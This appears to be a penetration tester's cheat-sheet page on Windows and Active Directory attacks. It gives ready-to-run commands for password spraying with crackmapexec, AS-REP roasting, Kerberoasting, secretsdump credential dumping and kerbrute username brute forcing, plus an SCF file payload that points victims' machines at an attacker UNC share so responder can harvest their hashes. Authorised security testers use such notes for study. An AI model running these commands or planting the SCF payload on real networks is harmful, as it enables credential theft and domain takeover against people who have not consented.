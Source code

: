 ## Miscellaneous Attacks In No Particular Order

**Password Spraying With CrackMapExec**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial. ``crackmapexec`` has a few protocols available. 
```bash
# Test 1 Password with a list of Usernames
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -p '<PASS>' --continue-on-success

# Test 1 Username with a list of Passwords
crackmapexec <PROTOCOL> <IP> -u '<USER>' -p <PASSLIST> --continue-on-success

# Authentication with an NT hash
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -H '<NT_HASH>' --continue-on-success 
```

## Windows / Active Directory Attacks

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

**Kerberoasting**

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

You can also use the PowerView function if you already have a shell.

```powershell
Import-Module .\PowerView.ps1
Invoke-Kerberoast
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)

**SCF File Attack**

An SCF *(Shell Command File)* can be used to access an attacker's UNC path. Planted inside a network share, when a user opens the ``scf`` file, Windows automatically authenticates to the server the UNC is pointing to, using the current user's credentials. We can use ``responder`` or something similar to harvest these credentials and crack them offline.

1) Inside a ``.scf`` file put:

```
[Shell]
Command=2
IconFile=\\<YOUR IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

[This tool](https://github.com/xct/hashgrab) is great for making payloads to capture hashes.

This attack is also very useful because It lets us relay things because it gives us a middle position between a User & a Service.
  - [The NTLM Protocol & NTLM Relay Attacks](https://github.com/ToBeatELIT3/InfoSecNotes/blob/main/Miscellaneous/The%20NTLM%20Protocol%20%26%20NTLM%20Relay%20Attacks.pdf)

2) Run [responder](https://github.com/lgandx/Responder) locally

```bash
responder -I <NETWORK INTERFACE>
```

3) Put your ``.scf`` file on a share and wait for a user to open it.

- [SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- [Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

**Secrets/Credentials Dumping**

The impacket script ``secretsdump.py`` can be used to extract credentials and secrets from a system. There are 2 main use cases:
- Dump NTLM hash of local users (remote SAM dump)
- Extract Domain Credentials via *DC Sync*

There is a lot that can be explained on *how* this works, and  *where* this works; but this is mainly so I can remember tool syntax so I won't bother with going into those details.

```bash
python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<IP> -outputfile secretsdump
```

- [DC Sync Attacks With Secretsdump](https://www.youtube.com/watch?v=QfyZQDyeXjQ)
- [Secretsdump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

**Username Enumeration**

Enumerate valid usernames using ``kerbrute``. This requires Kerberos to the open.

```bash
kerbrute userenum -d <DOMAIN> --dc <IP> <USERLIST>
```

**Valid User Testing**

Input fiie should have username:password pairs in them. 

Example:

```
admin:admin
KThompson:SecretPassw0rd
SWall:Lol123!
```

```bash
kerbrute bruteforce --dc 10.129.83.46 -d scrm.local pairs.txt
```
